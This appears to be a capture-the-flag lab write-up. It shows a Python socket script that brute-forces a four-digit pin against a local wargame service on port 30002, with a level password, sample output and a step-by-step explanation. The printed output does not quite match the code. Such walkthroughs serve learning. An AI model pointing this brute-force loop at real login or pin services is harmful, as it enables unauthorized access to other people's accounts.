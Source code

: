 

2.
```py
import socket

pin = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002))
s.recv(1024)

while True:
#  print ' [Heart] Sending Pin: ' + str(pin)
  s.sendall(password+' '+str(pin)+'\n')
  data=s.recv(1024)
#  print data

  if "Fail" in data:
     print data
     exit(0)
  elif "Wrong" in data:
     print "wrong Pincode: " + str(pin)
  else:
     print "Got Pincode: " + str(pin)
     print data
     exit(0)
  pin +=1

# results
[+] Sending Pin: 3710
[+] Sending Pin: 3711
```

- First import the socket library, socket is required to make network connections.
- Then initialize the `pin` variable with a 0 and set my `password` variable.
- Next establish an object called `s` which sets up my socket.
  - use the `socket` object and have it `connect to ‘localhost’ on port ‘30002’` and then using `s.recv(1024)` accept the `banner`.
  - So far this just established the connection to the service. Now we enter a while loop to brute force the password.

- The while loop simply prints the pin it will attempt.
- `s.sendall()` sends the `password` and `pin` through the socket. Note the `\n` as the last argument to the function, this is required because it tells the service that you’re done entering a line, without it the script will hang.
- Finally we capture the data returned from the server, print it and increase the pin by one. Then it starts all over.

- more feature rich: evaluate a condition to determine if the return from the service had “Wrong!” in it:
  - if so, continue the script.
  - If not, stop and say ‘Pin Found!’.
  - Luckily for me that was not needed because the service resets the connection when the correct pin is presented and thus the script stops.
